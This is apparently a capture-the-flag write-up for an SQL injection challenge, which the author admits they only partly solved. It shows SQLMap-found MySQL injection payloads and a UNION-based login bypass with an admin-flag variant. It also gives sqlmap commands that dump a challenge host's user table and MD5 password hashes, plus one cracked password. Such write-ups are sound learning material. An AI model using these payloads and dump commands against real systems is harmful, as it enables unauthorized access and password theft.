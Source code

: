 # Failed session
**_SQL Injection_** \
Difficulty: Medium

> **Note!** I didn't manage to complete this task entirely. However, I have decided to still include this partial solution as I did "collect most of the puzzles".

### 1. Use SQLMap to quickly find a working injection
```
Parameter: username (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=XRVo' RLIKE (SELECT (CASE WHEN (9110=9110) THEN 0x5852566f ELSE 0x28 END))-- LcKO&password=PxEl

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=XRVo' OR (SELECT 6847 FROM(SELECT COUNT(*),CONCAT(0x71626a6a71,(SELECT (ELT(6847=6847,1))),0x71767a6a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- kIJa&password=PxEl

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=XRVo' AND (SELECT 8814 FROM (SELECT(SLEEP(5)))oiEX)-- JDcP&password=PxEl

    Type: UNION query
    Title: MySQL UNION query (NULL) - 4 columns
    Payload: username=XRVo' UNION ALL SELECT NULL,CONCAT(0x71626a6a71,0x55424969544b72674f49587272736b4d4f696254617a5a41636e48416d547464545a4d62574f7951,0x71767a6a71),NULL,NULL#&password=PxEl
```

Out of these injections - the last one was the only actually working one.

### 2. Simplify and modify the injection
The injection above can be simplified to:
```
username=' UNION ALL SELECT NULL,"",NULL,NULL#&password=any
```

> Password doesn't matter as thanks to the injection - it isn't even checked.

However, we aren't done yet. We have only accessed the database and we don't have the administrator permissions that are essential to obtain the flag. We can achieve that by modifying the last argument.

```
username=' UNION ALL SELECT NULL,"",NULL,1#&password=any
```

This simple modification let me access another stage. However, now we need to provide the actual password.

### 3. Use the injection along with the SQLMap tool to dump everything
```sh
python3 sqlmap.py -u "http://container-manager.francecentral.cloudapp.azure.com:10144/login.php" --data="username=' UNION ALL SELECT NULL,"",NULL,1#&password=PxEl" --dump-all
```
After dumping everything and analysing the output, I found out that the database is called `db1` and has a table named `users`.

While trying to SQL inject manually (without the usage of SQLMap), I found out that one of the columns in that table is called `passwordMD5`. It has been proven to exist by the MariaDB error. The name clearly indicates that it likely contains the MD5 hashes of passwords. Let's dump that column.

```sh
python3 sqlmap.py -u "http://container-manager.francecentral.cloudapp.azure.com:10144/confirm.php" --batch --forms --crawl=2 -D db1 -T users -C passwordMD5 --dump
```

Here's the result of that operation:

| passwordMD5                      |
|----------------------------------|
| 100d7565034f985c386a266347fcfa3c |
| 5386e5dec276ad172e097a035bd07544 |
| 6a8057f9e0743012e09b49ebc04a0a07 |
| e89434e8b72041db23cdec2df7a0d2fa |

### 4. Use an online MD5 cracker to check all the obtained hashes
Only one of the hashes could be cracked.
> 5386e5dec276ad172e097a035bd07544 -> **Applepie123**

### 5. What went wrong
The password itself wasn't enough since my username was invalid. At this point **I couldn't progress further**.